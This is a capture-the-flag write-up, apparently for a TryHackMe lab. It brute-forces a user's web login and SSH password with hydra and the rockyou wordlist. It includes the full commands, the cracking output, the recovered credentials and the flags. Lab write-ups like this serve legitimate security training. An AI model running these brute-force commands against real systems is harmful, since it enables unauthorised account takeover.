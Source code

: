 # Hydra Challenge Writeup
#pentest/tryhackme

Our first task is to try to guess molly’s web password. We try to login and copy the request as curl in our developer tools.

```
curl 'http://10.10.84.187/login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.84.187/login' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: connect.sid=s%3Ah0ADsDa367RyMolh_Zm5Kxl49AGPXLNZ.yMtt1sPwtyYEA62yz675d6vcr94KxbQZIYD%2BB1Q1LEQ' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'username=foo&password=bar'
```

Things to keep in mind are the param within `—data-raw` and the error message: `Your username or password is incorrect.`

Let’s craft our hydra command:

```shell
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.84.187 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
...
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "loveme" - 38 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "fuckyou" - 39 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "123123" - 40 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "football" - 41 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "secret" - 42 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "andrea" - 43 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "carlos" - 44 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.84.187 - login "molly" - pass "jennifer" - 45 of 14344399 [child 8] (0/0)
[80][http-post-form] host: 10.10.84.187   login: molly   password: sunshine
```

There we have it! `molly/sunshine`, let’s login!
And we get our flag: `THM{2673a7dd116de68e85c48ec0b1f2612e}`

Next is SSH, we can also craft a similar hydra query:

```shell
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.84.187 -t 4 ssh
...
[DATA] attacking ssh://10.10.84.187:22/
[22][ssh] host: 10.10.84.187   login: molly   password: butterfly
```

And again, after connecting through SSH we get our flag.

```shell
kali@kali:~/local_server$ ssh molly@10.10.84.187
...
molly@ip-10-10-84-187:~$ ls
flag2.txt
molly@ip-10-10-84-187:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```